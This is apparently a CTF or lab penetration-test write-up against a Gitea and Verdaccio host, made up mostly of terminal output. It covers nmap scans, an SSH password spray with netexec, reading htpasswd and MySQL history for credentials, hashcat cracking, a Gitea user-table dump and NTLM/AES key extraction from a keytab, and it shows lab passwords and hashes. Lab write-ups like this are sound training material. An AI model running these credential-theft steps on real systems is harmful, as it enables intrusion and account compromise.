


The initial UDP scan shows the following:

```bash
└─$ nmap -F -sU 172.16.11.71
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-20 14:47 +0100
Nmap scan report for 172.16.11.71
Host is up (0.00019s latency).
All 100 scanned ports on 172.16.11.71 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 2.37 seconds

```

Where instead the TCP scan shows much more information:

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d9:00:c0:98:2c:18:94:5b:8a:61:96:32:d5:77:f4:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGzAHeNo+HJbxn7G8oBZh+DWGgexk1yaAZIm73Zic/th
3000/tcp open  http    syn-ack ttl 64 Golang net/http server
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: F6E1A9128148EEAD9EFF823C540EF471
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: no-store, no-transform
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: i_like_gitea=dc34ad7cffcff431; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=R81IeQ-YMKyZwpNIjUEaXh92jUI6MTc3NDAxNDk0NzcwNzg0ODM4NQ; Path=/; Expires=Sat, 21 Mar 2026 13:55:47 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 20 Mar 2026 13:55:47 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL3JlZ2lzdHJ5LnNoaW5yYS1kZXYudmw6MzAwMC8iLCJpY29ucyI
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Cache-Control: no-store, no-transform
|     Set-Cookie: i_like_gitea=cb8f0c931406ad50; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=ALpCFfv2y8yqO2hPiZekyoH_CXs6MTc3NDAxNDk0Nzg2Mzk2NDM0Nw; Path=/; Expires=Sat, 21 Mar 2026 13:55:47 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 20 Mar 2026 13:55:47 GMT
|_    Content-Length: 0
|_http-title: Gitea: Git with a cup of tea
4873/tcp open  unknown syn-ack ttl 64
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest: 
|     HTTP/1.1 403 Forbidden
|     Access-Control-Allow-Origin: *
|     Content-Type: application/json; charset=utf-8
|     Content-Length: 27
|     ETag: W/"1b-159fY+hcgoy83K1aYRgRmhcqM7s"
|     Vary: Accept-Encoding
|     Date: Fri, 20 Mar 2026 13:55:53 GMT
|     Connection: close
|     {"error":"invalid package"}
|   GetRequest: 
|     HTTP/1.1 500 Internal Server Error
|     Access-Control-Allow-Origin: *
|     X-Frame-Options: deny
|     Content-Security-Policy: connect-src 'self'
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Content-Type: application/json; charset=utf-8
|     Content-Length: 33
|     ETag: W/"21-qIMwRienCznwY0yu6z9U53YXV60"
|     Vary: Accept-Encoding
|     Date: Fri, 20 Mar 2026 13:55:52 GMT
|     Connection: close
|     {"error":"internal server error"}
|   HTTPOptions: 
|     HTTP/1.1 204 No Content
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Methods: GET,HEAD,PUT,PATCH,POST,DELETE
|     Vary: Access-Control-Request-Headers
|     Content-Length: 0
|     Date: Fri, 20 Mar 2026 13:55:52 GMT
|_    Connection: close
8220/tcp open  http    syn-ack ttl 64 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3000-TCP:V=7.98%I=7%D=3/20%Time=69BD51E2%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,3789,"HTTP/1\.0\x20200\x20OK\r\nCache-Control:
SF:\x20no-store,\x20no-transform\r\nContent-Type:\x20text/html;\x20charset
SF:=UTF-8\r\nSet-Cookie:\x20i_like_gitea=dc34ad7cffcff431;\x20Path=/;\x20H
SF:ttpOnly;\x20SameSite=Lax\r\nSet-Cookie:\x20_csrf=R81IeQ-YMKyZwpNIjUEaXh
SF:92jUI6MTc3NDAxNDk0NzcwNzg0ODM4NQ;\x20Path=/;\x20Expires=Sat,\x2021\x20M
SF:ar\x202026\x2013:55:47\x20GMT;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cook
SF:ie:\x20macaron_flash=;\x20Path=/;\x20Max-Age=0;\x20HttpOnly;\x20SameSit
SF:e=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Fri,\x2020\x20Mar\x
SF:202026\x2013:55:47\x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en
SF:-US\"\x20class=\"theme-auto\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n
SF:\t<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initia
SF:l-scale=1\">\n\t<title>Gitea:\x20Git\x20with\x20a\x20cup\x20of\x20tea</
SF:title>\n\t<link\x20rel=\"manifest\"\x20href=\"data:application/json;bas
SF:e64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWU
SF:iOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL3
SF:JlZ2lzdHJ5LnNoaW5yYS1kZXYudmw6MzAwMC8iLCJpY29ucyI")%r(Help,67,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=u
SF:tf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptio
SF:ns,1C2,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nCache-Control:\
SF:x20no-store,\x20no-transform\r\nSet-Cookie:\x20i_like_gitea=cb8f0c93140
SF:6ad50;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie:\x20_csrf=
SF:ALpCFfv2y8yqO2hPiZekyoH_CXs6MTc3NDAxNDk0Nzg2Mzk2NDM0Nw;\x20Path=/;\x20E
SF:xpires=Sat,\x2021\x20Mar\x202026\x2013:55:47\x20GMT;\x20HttpOnly;\x20Sa
SF:meSite=Lax\r\nSet-Cookie:\x20macaron_flash=;\x20Path=/;\x20Max-Age=0;\x
SF:20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\
SF:x20Fri,\x2020\x20Mar\x202026\x2013:55:47\x20GMT\r\nContent-Length:\x200
SF:\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r
SF:\n400\x20Bad\x20Request");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4873-TCP:V=7.98%I=7%D=3/20%Time=69BD51E7%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,1A9,"HTTP/1\.1\x20500\x20Internal\x20Server\x20Error\r\nAccess
SF:-Control-Allow-Origin:\x20\*\r\nX-Frame-Options:\x20deny\r\nContent-Sec
SF:urity-Policy:\x20connect-src\x20'self'\r\nX-Content-Type-Options:\x20no
SF:sniff\r\nX-XSS-Protection:\x201;\x20mode=block\r\nContent-Type:\x20appl
SF:ication/json;\x20charset=utf-8\r\nContent-Length:\x2033\r\nETag:\x20W/\
SF:"21-qIMwRienCznwY0yu6z9U53YXV60\"\r\nVary:\x20Accept-Encoding\r\nDate:\
SF:x20Fri,\x2020\x20Mar\x202026\x2013:55:52\x20GMT\r\nConnection:\x20close
SF:\r\n\r\n{\"error\":\"internal\x20server\x20error\"}")%r(HTTPOptions,EA,
SF:"HTTP/1\.1\x20204\x20No\x20Content\r\nAccess-Control-Allow-Origin:\x20\
SF:*\r\nAccess-Control-Allow-Methods:\x20GET,HEAD,PUT,PATCH,POST,DELETE\r\
SF:nVary:\x20Access-Control-Request-Headers\r\nContent-Length:\x200\r\nDat
SF:e:\x20Fri,\x2020\x20Mar\x202026\x2013:55:52\x20GMT\r\nConnection:\x20cl
SF:ose\r\n\r\n")%r(RTSPRequest,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:onnection:\x20close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(D
SF:NSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection
SF::\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:onnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x20B
SF:ad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,
SF:2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n"
SF:)%r(TLSSessionReq,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:
SF:\x20close\r\n\r\n")%r(Kerberos,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(SMBProgNeg,2F,"HTTP/1\.1\x20400\x20B
SF:ad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(X11Probe,2F,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(FourOhFo
SF:urRequest,111,"HTTP/1\.1\x20403\x20Forbidden\r\nAccess-Control-Allow-Or
SF:igin:\x20\*\r\nContent-Type:\x20application/json;\x20charset=utf-8\r\nC
SF:ontent-Length:\x2027\r\nETag:\x20W/\"1b-159fY\+hcgoy83K1aYRgRmhcqM7s\"\
SF:r\nVary:\x20Accept-Encoding\r\nDate:\x20Fri,\x2020\x20Mar\x202026\x2013
SF::55:53\x20GMT\r\nConnection:\x20close\r\n\r\n{\"error\":\"invalid\x20pa
SF:ckage\"}");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/20%OT=22%CT=%CU=%PV=Y%G=N%TM=69BD51FF%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=109%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=F9%GCD=1%ISR=FA%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# GIT

The gitea is showing you exactly the hostname of this machine, it might not be relevant now but later on.



Here I was not able to see anything hosted neithert from an unauthenticated endpoint nor from the authenticated one, for this reason I will come back later on when I find more.

# SSH

Here I was able to understand that the current user I have access to this server, now it should be a low-privileged user but it is worth trying:

```bash
└─$ netexec ssh 172.16.11.0/24 -u william.davis@shinra-dev.vl -p Eniwy7j5KH+oze 
SSH         172.16.11.25    22     172.16.11.25     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         172.16.11.20    22     172.16.11.20     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         172.16.11.13    22     172.16.11.13     [*] SSH-2.0-OpenSSH_for_Windows_8.1
SSH         172.16.11.71    22     172.16.11.71     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         172.16.11.70    22     172.16.11.70     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         172.16.11.25    22     172.16.11.25     [-] william.davis@shinra-dev.vl:Eniwy7j5KH+oze
SSH         172.16.11.20    22     172.16.11.20     [-] william.davis@shinra-dev.vl:Eniwy7j5KH+oze
SSH         172.16.11.13    22     172.16.11.13     [-] william.davis@shinra-dev.vl:Eniwy7j5KH+oze
SSH         172.16.11.71    22     172.16.11.71     [+] william.davis@shinra-dev.vl:Eniwy7j5KH+oze  Linux - Shell access!
SSH         172.16.11.70    22     172.16.11.70     [+] william.davis@shinra-dev.vl:Eniwy7j5KH+oze  Linux - Shell access!

```

I see the git config from the running services:

```bash
fleet-server--7.17.8
git          773  0.0  7.4 1314484 150156 ?      Ssl  03:46   0:13 /usr/local/bin/gitea web --config /etc/gitea/app.ini
root         778  0.0  0.9  32820 19056 ?        Ss   03:46   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root         779  0.0  0.2  43632  6028 ?        Ss   03:46   0:00 /usr/sbin/oddjobd -n -p /run/oddjobd.pid -t 300

```

# Back on track

Now I can get another flag and another user?

```bash
ot@registry:~# cat flag.txt
cat flag.txt
SHINRA{6b4ff372f432718d0e927846fd9abcac}
root@registry:~# cd ver	
cd verdaccio/
root@registry:~/verdaccio# ls
ls
htpasswd
plugins
storage
root@registry:~/verdaccio# cat htpasswd
cat htpasswd
verdaccio:$apr1$DWuTtcvV$1ZfTGBSZgp.s1HB8uXsh40
root@registry:~/verdaccio# 

```

Now I will also do some quick post exploitation and search for more stuff that might help me to move on and I have the DB creds for the Gitea database:

```bash
root@registry:~# cat .mysql_history
_HiStOrY_V2_
CREATE\040DATABASE\040gitea;
GRANT\040ALL\040PRIVILEGES\040ON\040gitea.*\040TO\040'gitea'@'localhost'\040IDENTIFIED\040BY\040"MyG1t3aP@ssw0rd";
FLUSH\040PRIVILEGES;
QUIT;
show\040databases;
root@registry:~# 

```

The verdaccio credentials translate to the following ones, now I need to find where it goes?.

```bash
$apr1$DWuTtcvV$1ZfTGBSZgp.s1HB8uXsh40:masamune            
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$DWuTtcvV$1ZfTGBSZgp.s1HB8uXsh40
Time.Started.....: Tue Mar 24 09:49:43 2026 (0 secs)
Time.Estimated...: Tue Mar 24 09:49:43 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (Wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  2026.1 kH/s (12.06ms) @ Accel:6 Loops:500 Thr:608 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 58368/14344385 (0.41%)
Rejected.........: 0/58368 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> krystin
Hardware.Mon.#01.: Temp: 52c Util: 97% Core:1740MHz Mem:5000MHz Bus:8

Started: Tue Mar 24 09:49:32 2026
Stopped: Tue Mar 24 09:49:43 2026

```

And in the Gitea Database I see only one user?

```bash
ERROR 1146 (42S02): Table 'gitea.users' doesn't exist
MariaDB [gitea]> select * from user;
+----+------------+--------+-----------+------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+----------------------------------+----------------------------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+--------+------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+-----------------------+
| id | lower_name | name   | full_name | email            | keep_email_private | email_notifications_preference | passwd                                                                                               | passwd_hash_algo | must_change_password | login_type | login_source | login_name | type | location | website | rands                            | salt                             | language | description | created_unix | updated_unix | last_login_unix | last_repo_visibility | max_repo_creation | is_active | is_admin | is_restricted | allow_git_hook | allow_import_local | allow_create_organization | prohibit_login | avatar | avatar_email     | use_custom_avatar | num_followers | num_following | num_stars | num_repos | num_teams | num_members | visibility | repo_admin_change_team_access | diff_view_style | theme | keep_activity_private |
+----+------------+--------+-----------+------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+----------------------------------+----------------------------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+--------+------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+-----------------------+
|  1 | gitadm     | gitadm |           | gitadm@shinra.vl |                  0 | enabled                        | 7cecd6ac7d01135dd9f4880a5b577a29c276ae47a735c8bf22066c6493aae575e38962533b2b762de162c273bf45c52f0716 | pbkdf2           |                    0 |          0 |            0 |            |    0 |          |         | 4c4f8d23e796c18cdcc94583d353e0d2 | 3284c795bace8c8fc81ac1609452e7cf | en-US    |             |   1671370215 |   1671370215 |      1671370215 |                    0 |                -1 |         1 |        1 |             0 |              0 |                  0 |                         1 |              0 |        | gitadm@shinra.vl |                 0 |             0 |             0 |         0 |         0 |         0 |           0 |          0 |                             0 |                 | auto  |                     0 |
+----+------------+--------+-----------+------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+----------------------------------+----------------------------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+--------+------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+-----------------------+
1 row in set (0.001 sec)


```

Now unfortunately the password is not crackable by the common password wordlist, so I decided to go back to that verdaccio and I see that it is running on the port 4873/TCP:

```bash
root@registry:~# ss -tulpn
Netid                        State                         Recv-Q                         Send-Q                                                 Local Address:Port                                                 Peer Address:Port                        Process                                                           
udp                          UNCONN                        0                              0                                                      127.0.0.53%lo:53                                                        0.0.0.0:*                            users:(("systemd-resolve",pid=633,fd=13))                        
tcp                          LISTEN                        0                              4096                                                       127.0.0.1:8221                                                      0.0.0.0:*                            users:(("fleet-server",pid=1382,fd=16))                          
tcp                          LISTEN                        0                              80                                                         127.0.0.1:3306                                                      0.0.0.0:*                            users:(("mariadbd",pid=850,fd=18))                               
tcp                          LISTEN                        0                              128                                                          0.0.0.0:22                                                        0.0.0.0:*                            users:(("sshd",pid=1332,fd=3))                                   
tcp                          LISTEN                        0                              511                                                          0.0.0.0:4873                                                      0.0.0.0:*                            users:(("verdaccio",pid=784,fd=20))                              
tcp                          LISTEN                        0                              4096                                                       127.0.0.1:6788                                                      0.0.0.0:*                            users:(("elastic-agent",pid=766,fd=11))                          
tcp                          LISTEN                        0                              4096                                                       127.0.0.1:6789                                                      0.0.0.0:*                            users:(("elastic-agent",pid=766,fd=10))                          
tcp                          LISTEN                        0                              4096                                                   127.0.0.53%lo:53                                                        0.0.0.0:*                            users:(("systemd-resolve",pid=633,fd=14))                        
tcp                          LISTEN                        0                              128                                                             [::]:22                                                           [::]:*                            users:(("sshd",pid=1332,fd=4))                                   
tcp                          LISTEN                        0                              4096                                                               *:8220                                                            *:*                            users:(("fleet-server",pid=1382,fd=15))                          
tcp                          LISTEN                        0                              4096                                                               *:3000                                                            *:*                            users:(("gitea",pid=767,fd=12))                                  
root@registry:~# 


```

And I am in:



But honestly I have no damn idea what i am supposed to look for? Anyway I also exported the credentials of the machine object in this realm:

```bash
─$ python3 ../Tools/KeyTabExtract/keytabextract.py krb5_registry.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
    REALM : SHINRA-DEV.VL
    SERVICE PRINCIPAL : REGISTRY$/
    NTLM HASH : 347eb167037d69c89154b6b78ad6908a
    AES-256 HASH : 5b9c2ca01413381fdc8d33b26503fac539a315a713ce24571d0c98fcf9a36bd2
    AES-128 HASH : 731d227f9acddc79e49e666fa57a9e90

```